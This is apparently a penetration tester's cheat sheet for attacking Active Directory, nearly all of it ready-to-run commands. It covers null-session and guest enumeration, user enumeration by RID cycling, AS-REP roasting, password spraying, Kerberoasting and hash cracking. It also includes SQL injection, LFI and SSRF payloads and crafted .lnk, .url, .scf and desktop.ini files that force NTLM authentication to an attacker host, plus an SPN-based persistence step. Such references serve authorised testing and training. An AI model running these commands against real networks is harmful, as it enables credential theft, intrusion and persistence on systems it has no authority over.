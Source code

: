 # Active Directory

## AD enum (NO creds/sessions)

### Basic recon

```bash
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### SMB enum

```bash
# null session
nxc smb <IP> -u '' -p '' --shares
# guest
nxc smb <IP> -u 'guest' -p '' --shares
```

```bash
# null session
smbclient -N -L //<target>
# guest
smbclient -U 'guest%' -L //<target>
# conect to a share
smbclient [-U 'guest%'] [-N] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# guest
smbmap -u 'guest' -p '' -H <target>
# recursive listing
smbmap [-u 'guest' -p '] -H <target> -r [<share>]
```

### User enum

```bash
#kerbrute
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
# smb/rpc/ldap
nxc smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

```bash
# rid cycling
nxc smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
seq 500 1500 xargs -P 50 -I{} rpcclient -U 'guest%' <target> -c 'lookupsids S-1-123-123-{}'
```

### With valid username list

* AS-REP Roast

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

* Password Spraying/Brute Forcing

```bash
# brute forcing
nxc smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'

# password spraying
nxc smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

### Capturing NTLM hashes

#### Network poisoning

```bash
responder -I <interface>
```

#### Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

* Via web vulnerability

&#x20;If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```powershell
# LFI
?page=\\10.10.10.10\test

# SSRF
?url=file://10.10.10.10/test

# SQL Injection
?id=1' union select null,load_file('\\\\10.10.10.10\\test'),null-- -
# MSSQL
?id=1' union select null,(select x from OpenRowset(BULK '\\10.10.10.10\test',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\10.10.10.10\test'),null-- -
```

* Shortcut.lnk File

```powershell
# Create a shortcut.lnk with PowerShell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

* Shortcut.url File

```powershell
# Create a shortcut.url with PowerShell
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:///\\10.10.10.10\test' >> ~shortcut.url
```

* SCF File

```powershell
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:///\\10.10.10.10\test' >> ~file.scf
```

* Desktop.ini File

```powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

## AD enum (WITH creds/sessions)

### BloodHound enum

You have to configure your neo4j and bloodhound on your machine, then:

```bash
# neo4j
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk/ && neo4j console
# bloodhound
bloodhound
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# EXE
.\SharpHound.exe -CollectionMethods All
# PS1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

#### Attack

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
```

#### Cracking

```bash
john --format=krb5tgs --wordlist=passwords.txt hashes
hashcat -m 13100 --force -a 0 hashes passwords.txt
```

#### Persistence

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```powershell
#PowerView
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='test/test'} -verbose
```
